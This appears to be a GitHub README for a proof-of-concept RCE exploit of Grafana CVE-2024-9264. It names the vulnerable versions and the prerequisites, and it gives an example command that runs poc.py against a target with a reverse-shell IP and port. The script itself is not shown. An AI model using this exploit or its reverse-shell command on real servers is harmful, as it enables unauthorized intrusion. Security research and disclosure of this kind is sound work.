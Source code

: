 # CVE-2024-9264-RCE-Exploit in Grafana via SQL Expressions

## Description
Proof Of Concept for Remote Code Execution in Grafana (CVE-2024-9264)

This repository contains a Python script that exploits a Remote Code Execution (RCE) vulnerability in Grafana's SQL Expressions feature.
By leveraging insufficient input sanitization, this exploit allows an attacker to execute arbitrary shell commands on the server.
This is made possible through the shellfs community extension, which can be installed and loaded by an attacker to facilitate command execution.

## Prerequisites
- authenticated Grafana user with `Viewer` permissions or higher
- DuckDB binary must be installed and accessible through Grafana's PATH

## Impacted version
Grafana >= v11.0.0 (all v11.x.y are impacted)

## Usage
```
python3 poc.py [--url <target>] [--username <username>] [--password <password>] [--reverse-ip <IP>] [--reverse-port <PORT>]
```
![14](https://github.com/user-attachments/assets/f62d946d-0195-45db-b28e-0cdb6c94985c)

## Example
```
python poc.py --url http://127.0.0.1:3000 --username eviluser --password eviluser --reverse-ip 10.10.1.41 --reverse-port 9001
```

## Disclaimer

This script is intended for educational purposes and for use in controlled environments where you have permission to test the security of the system. Misuse of this tool could lead to legal consequences.

## More
https://zekosec.com/blog/file-read-grafana-cve-2024-9264/

https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/

